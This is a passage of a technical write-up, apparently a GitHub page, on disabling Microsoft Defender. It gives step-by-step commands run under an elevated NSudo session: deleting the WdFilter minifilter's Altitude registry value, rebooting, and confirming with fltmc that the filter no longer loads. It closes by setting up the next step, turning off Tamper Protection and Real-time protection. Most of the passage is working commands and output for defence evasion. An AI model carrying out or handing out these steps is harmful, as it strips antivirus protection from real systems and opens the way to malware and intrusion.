 ```
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
[snip]
```

Upon attempting to execute the reg.exe command to delete the "Altitude number" regkey associated with the WdFilter driver, it was confirmed that the operation was successful.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg delete "HKLM\SYSTEM\CurrentControlSet\Services\WdFilter\Instances\WdFilter Instance" /v Altitude /f
The operation completed successfully.
````

Next, reboot the computer (recommended) or wait a few minutes (inconsistent: ~20 mins) for the changes to take effect.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> shutdown /r /t 0
```

It is noted that the WdFilter kernel minidriver fails to load on the next reboot because the Altitude registry subkey has been deleted breaking its functionality.

```
C:\Users\Administrator> fltmc

Filter Name                     Num Instances    Altitude    Frame
------------------------------  -------------  ------------  -----
bindflt                                 0       409800         0
storqosflt                              0       244000         0
wcifs                                   0       189900         0
CldFlt                                  0       180451         0
FileCrypt                               0       141100         0
luafv                                   1       135000         0
npsvctrig                               1        46000         0
Wof                                     1        40700         0
```

<a name="2-disable-tamper-protection"></a>
#### 2. Disable Tamper Protection

Now that the WdFilter kernel minidriver is no longer loaded and protecting the Defender Registry Keys, successfully proceed to disable these unprotected keys, in this case the Tamper Protection regkey as it is the next protection chain in line to finally in turn disable defender protections like Real-time protection.
